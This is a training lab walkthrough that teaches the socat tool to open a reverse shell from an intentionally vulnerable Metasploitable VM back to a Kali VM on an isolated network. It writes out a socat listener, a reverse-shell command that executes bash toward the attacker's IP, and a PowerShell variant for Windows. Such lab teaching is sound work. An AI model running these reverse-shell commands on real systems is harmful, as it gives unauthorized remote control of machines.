



- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use the socat tool to get a reverse shell on a target.

**Lab Purpose:**

Socat is a command line-based utility that establishes two bi-directional byte streams and transfers data between them. Socat can be used for many different purposes due to its versatility.

**Lab Tool:**

Kali Linux and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using socat to create a reverse shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Socat comes pre-installed on Kali Linux. The main difference between netcat and socat is that the syntax for using socat is more difficult to understand. Socat is used to make connections between two points. These points can be anything. We will begin by creating a reverse shell connecting our Kali VM to our Metasploitable VM.

First, let’s find out the eth0 IP address of our Kali VM and write it down. We will use this information on our Metasploitable VM. Open a terminal screen in Kali VM and type this command:

ifconfig

192.168.56.103 is IP address of our Kali VM in this case.

Then, establish a listener on our Kali VM by typing the following:

socat TCP-L:8080 –

This creates a listener on our Kali VM and is the equivalent of typing “nc -lvnp 8080” in netcat.

### Task 3:

We will then switch to our Metasploitable VM and type the following to connect back to our Kali VM:

socat TCP: 192.168.56.103:8080 EXEC:”bash -li”

If we return to our Kali terminal and attempt to execute commands such as “id” and “whoami”, we can see that we have succesfully established a shell to our metasploitable machine.

This is an unstable shell and it is not interactive, as you can see processes such as SSH do not work. crtl + c will also kill the shell. This is a useful technique to know, however, in the event that netcat does not work. Socat is also very versatile and it is much easier to stabilise the shell, as you will see in a later lab.

If we were to attempt to establish a reverse shell using socat on a windows machine, we would need to change the syntax of the command connecting back to our Kali machine from the Windows machine. The syntax would change to the following:

socat TCP:: EXEC:powershell.exe,pipes

This command will use the Windows Powershell instead of bash to create the shell. The pipes options forces powershell to use Unix style standard input and output, which makes it easier for us to use the shell.